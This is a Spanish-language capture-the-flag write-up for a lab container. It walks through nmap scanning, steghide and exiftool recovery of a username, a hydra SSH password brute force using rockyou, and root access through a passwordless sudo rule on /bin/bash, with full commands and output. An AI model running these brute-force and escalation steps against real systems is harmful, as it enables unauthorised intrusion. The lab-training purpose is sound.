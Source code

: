 #abusing-sudo #stego #steghide #exiftool #hydra 

![](../../../Images/Pasted%20image%2020241008070451.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 07:06 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con solo una imagen.

![](../../../Images/Pasted%20image%2020241008070656.png)

Descargamos la imagen en nuestro sistema de ataque y nos ponemos a investigarla.
# Usuario Borazuwarah

Hacemos un stego con `steghide` y obtenemos algo de información no importante.

```
> steghide extract -sf imagen.jpeg
Enter passphrase:

wrote extracted data to "secreto.txt".

> cat secreto.txt

Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```

Luego examinamos los metadatos de la imagen y conseguimos dar con un nombre de usuario.

```
> exiftool imagen.jpeg

ExifTool Version Number         : 12.76
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:10:07 21:32:57+02:00
File Access Date/Time           : 2024:10:07 21:33:43+02:00
File Inode Change Date/Time     : 2024:10:07 21:32:57+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Ahora, con el nombre de usuario podemos hacer fuerza bruta contra el servicio SSH con `hydra`.

```
> hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 06:48:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 06:48:12
```

Conseguimos acceder al sistema mediante SSH.

# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo`.

```
borazuwarah@7dd5484e294a:~$ sudo -l
Matching Defaults entries for borazuwarah on 7dd5484e294a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7dd5484e294a:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Nos encontramos que podemos ejecutar el binario`/bin/bash` con permisos ``sudo`` y sin contraseña.

```
borazuwarah@7dd5484e294a:~$ sudo /bin/bash
root@7dd5484e294a:/home/borazuwarah#
```